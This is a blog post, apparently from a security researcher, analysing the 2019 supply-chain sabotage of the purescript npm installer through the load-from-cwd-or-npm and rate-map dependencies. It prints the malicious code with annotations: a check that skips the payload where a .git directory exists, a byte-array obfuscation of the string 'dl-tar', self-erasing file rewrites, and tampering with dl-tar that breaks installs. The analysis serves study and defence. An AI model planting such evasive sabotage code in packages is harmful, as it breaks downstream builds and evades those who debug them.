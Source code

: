 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ``if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }``

  `} else {`

    // call  tasks.unshift 1

  `tasks.unshift(resolveSemverFromNpm);

  }`

      //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")


`do {   
 parent = parent.parent;`

  `try {
    const {path} = parent;`

    //the attacker is deciding whether or not to run the exploit code,
    //by checking on the version of the purescript npm installer,
    //and if there is a .git working directory.  
    //If the code detects a .git working directory, it'll skip the exploit.
    //This is because .git directories aren't present in production environments,
    //so it makes debugging this issue way harder.
    // The intent is to  determine if a particular version of an installer is being run,
    //and if the code is being run in a environment where it could be easily debugged!



`if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
      parent = 'npm';
      break;
    }
  } catch (_) {}
} while (parent);`

    //The purpose of this parent variable is just the layup for the exploit code if
      //the above conditions are met to allow for it.


`if (typeof parent !== 'string') {
    return results[2];
}`


    //here's that [2] what's happening here is an if statement
    //returning the PassThrough constructor
    //in the case where the malicious code is being run,
    //this breaks a related function to pull down some
    //packages to complete the building of the software:


`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`




#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");`


    //You'll see the same check here if the code is running in a debug or non production environment.
    //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:


`do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||`

 `[path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {`

      `parent = "npm";
       break;
    }
  } catch (_) {}

} while (parent);

if (typeof parent !== "string") {


  const px = require.resolve(`

      // `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.


`Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );`

      //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!

`try {
  writeFileSync(

  __filename,
  readFileSync(__filename, "utf8").replace(
    /let parent[^\0]*module\.exports/u,
    "module.exports"
      )
    );
  } catch (_) {}`


      //this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex
      //`/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.


`try {
  writeFileSync(

px,

readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")

);

} catch (_) {}

}`



#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.

